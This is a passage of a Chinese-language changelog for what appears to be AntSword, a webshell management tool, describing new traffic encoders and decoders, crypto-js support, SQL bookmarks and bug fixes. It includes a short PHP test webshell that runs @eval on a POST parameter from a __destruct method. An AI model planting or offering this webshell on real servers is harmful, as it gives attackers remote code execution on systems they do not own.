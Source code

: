 * 新增第三方库 marked 0.6.2 用于 markdown 渲染
* 更新提示窗口新增 ReleaseNote 显示(缩放显示,图片看不清可直接前往 github 查看详细更新日志), 新增 「更新日志」按钮(点击后直接打开 github release 页)
* 「编码管理」新增「获取更多」按钮, 打开浏览器访问 AwesomeEncoder(自定义编码器分享), 如果你有比较好的 Encoder, 欢迎向这个仓库提PR
* 「编码管理」新增解码器管理, 可创建自定义解码器

![aencoder.png](https://i.loli.net/2019/05/13/5cd95654c75ac23085.png)

* 新增第三方库 `crypto-js` 3.1.9-1 , 可以更方便的进行各种加解密处理了

> nodejs 自带 `crypto` 库, 也可使用 `crypto-js` 这个库来进行加密处理, 这个第三方库使用起来相对更简单一些, 但同时限制也会多一些, 自行取舍

## 2019/04/27 `v(2.1.1)`

### 核心模块

* 新增「解码器」(目前仅支持 PHP)

> 将返回数据包进行编码/加密

* 新增 PHP `base64`、`rot13` 解码器

* 修复使用 `__destruct` 类型 shell 时 解码器不生效的 Bug (thx @scanf)

> 取消 `register_shutdown_function` 改为显式调用 `asoutput`

测试 Shell 如下:

```
<?php
class Test{
  function __destruct(){
    @eval($_POST['ant']);
  }
}
$test = new Test;
?>
```

### Shell 管理

* 修复搜索数据时正则表达式输入错误导致crash 问题 #157

### 数据管理

* 添加SQL语句书签功能, 将常用的 SQL 语句保存成书签

![db_bookmark_2.jpg](https://i.loli.net/2019/04/27/5cc3e8ec1c23c.jpg)

* 修复数据库查询结果字段名有逗号时异常

### 其它

* 「默认设置」数据管理项中, 增加「全局书签」设置, 设置一些自己常用的 SQL 语句

![db_bookmark_1.jpg](https://i.loli.net/2019/04/27/5cc3e8ea2abff.jpg)


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino